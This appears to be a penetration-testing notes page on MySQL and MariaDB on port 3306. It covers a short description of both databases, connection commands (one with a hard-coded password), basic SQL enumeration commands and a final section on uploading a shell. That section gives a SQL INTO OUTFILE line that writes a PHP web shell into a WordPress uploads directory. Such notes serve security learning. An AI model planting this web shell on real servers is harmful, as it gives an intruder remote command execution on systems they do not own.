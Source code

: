 ```yaml
---
title: "3306 mariadb mysql"
author: amandaguglieri
draft: false
TableOfContents: true
---
```


# 3306 mariaDB - mySQL

## Description

**MySQL**: MySQL is an open-source relational database management system(RDBMS) based on Structured Query Language (SQL). It is developed and managed by oracle corporation and initially released on 23 may, 1995. It is widely being used in many small and large scale industrial applications and capable of handling a large volume of data. After the acquisition of MySQL by Oracle, some issues happened with the usage of the database and hence MariaDB was developed.

**MariaDB**: MariaDB is an open source relational database management system (RDBMS) that is a compatible drop-in replacement for the widely used MySQL database technology. It is developed by MariaDB Foundation and initially released on 29 October 2009. MariaDB has a significantly high number of new features, which makes it better in terms of performance and user-orientation than MySQL.



## Connect to database: mariadb

```bash
# -h host/ip   
# -u user As default mariadb has a root user with no authentication
mariadb -h <host/IP> -u root
```


## Connect to database: mysql 

```bash
# -h host/ip   
# -u user As default mysql has a root user with no authentication
mysql --host=INSTANCE_IP --user=root --password=thepassword
mysql -h <host/IP> -u root -p fArFLP29UySm4bZj
```

## mariadb commands

```bash
# Get all databases
show databases;

# Select a database
use <databaseName>;

# Get all tables from the previously selected database
show tables; 

# Dump columns from a table
describe <table_name>;

# Dump columns from a table
show columns from <table>;
```

## Upload a shell 

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql panel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```
